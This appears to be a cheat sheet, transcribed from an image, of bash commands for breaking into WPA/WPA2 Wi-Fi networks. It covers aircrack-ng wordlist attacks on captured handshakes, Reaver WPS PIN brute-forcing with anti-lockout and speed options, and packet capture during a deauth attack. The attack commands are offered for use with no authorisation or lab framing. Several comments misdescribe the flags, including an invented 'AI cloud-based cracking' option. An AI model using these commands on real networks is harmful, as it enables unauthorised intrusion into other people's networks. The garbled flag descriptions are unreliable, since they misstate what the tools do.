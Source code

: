 ```bash
# Crack the captured handshake using Aircrack-ng with default or custom wordlist
aircrack-ng capturefile-01.cap
```

```bash
# Crack handshake with specific wordlist (replace with actual path to wordlist)
aircrack-ng -w /path/to/wordlist.txt capturefile-01.cap
```

```bash
# Perform a brute-force attack using a custom wordlist
aircrack-ng -w /path/to/wordlist.txt -b [BSSID] capturefile-01.cap
```

```bash
# Check for weak PINs and WPA/WPA2 handshakes with Reaver
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv
```

```bash
# Enable advanced Reaver options for faster brute-force with pin recovery
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv -K 1
```

```bash
# Force Reaver to restart from last checkpoint (useful if previous attack was interrupted)
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv -K 1 -r
```

```bash
# Attempt Reaver with different PIN lengths (some routers require this)
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv -L 8
```

```bash
# Reaver with a timeout setting to avoid lockout
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv --no-nacks --timeout 100
```

```bash
# Specific timeout to control retry rate (faster attacks)
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv --delay 0
```

```bash
# Set a custom PIN range for Reaver to test a specific subset of PINs (optimizing brute force)
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv -P 12345678-87654321
```

```bash
# Monitor captured handshake for WPA/WPA2 weak PINs
aircrack-ng capturefile-01.cap
```

```bash
# Display captured packets during a deauth attack, monitoring BSSID and associated clients
airodump-ng --bssid [BSSID] -c [channel] -w capturefile --write-interval 5 wlan0mon
```

```bash
# Use AI cloud-based cracking (optional, advanced) for distributed attacks
aircrack-ng -w /path/to/wordlist.txt -D [server_ip] capturefile-01.cap
```
